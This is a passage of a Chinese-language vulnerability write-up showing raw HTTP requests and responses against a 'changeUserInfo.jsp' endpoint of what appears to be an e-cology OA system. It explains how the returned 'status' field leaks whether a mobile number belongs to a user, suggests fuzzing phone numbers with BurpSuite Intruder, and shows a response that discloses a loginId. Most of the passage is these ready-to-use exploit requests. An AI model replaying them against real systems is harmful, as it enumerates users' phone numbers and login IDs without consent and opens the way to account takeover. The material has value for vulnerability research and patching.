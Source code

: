 ```
Content-Type: application/json; charset=UTF-8
Content-Length: 17
Connection: close
Date: Fri, 19 May 2023 01:41:30 GMT

{"status":"-1"}
```  
  
当大于1时返回 {"status":"0"}，如下。  
```
GET /mobile/plugin/changeUserInfo.jsp?type=getLoginid&mobile=1 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Connection: close
Cache-Control: max-age=0
```  
```
HTTP/1.1 200 OK
Server: WVS
Cache-Control: private
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-UA-Compatible: IE=8
Set-Cookie: ecology_JSessionid=aaazz3rlfOPGyh_GFNZly; path=/
Content-Type: application/json; charset=UTF-8
Content-Length: 16
Connection: close
Date: Fri, 19 May 2023 01:42:50 GMT

{"status":"0"}
```  
  
在这种情况下，是可以利用BurpSuite的Intruder做进一步模糊查询移动电话的。如下第二张图，存在一个包含17的移动电话，以及多个包含18的移动电话。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSibFkadoemiaNHuNX2XzdmlsjibNPdM4pLBmVqfmUP97p2eKmic0icShiaWqA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVgUyFfE1kRjc9DQssCcdhSnnRsUiaia8skEVNjs1mqXd6Y5dLgHyaCLiazqKJJK5KzwqTPATpN46QSw/640?wx_fmt=png "")  
  
当等于1时返回 {"status":"1"}以及 loginId及其值，在这种情况下，我们就可以直接获取一个 loginId。  
```
GET /mobile/plugin/changeUserInfo.jsp?type=getLoginid&mobile=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close
```  
```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 19 May 2023 01:43:50 GMT
Content-Type: application/json; charset=UTF-8
Content-Length: 34
Connection: close
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-UA-Compatible: IE=8
Expires: Thu, 01 Dec 1994 16:00:00 GMT
Set-Cookie: ecology_JSessionid=aaxctkRR1WUJ97SAqRRiy; path=/

{"loginId":"xsijr","status":"1"}
```  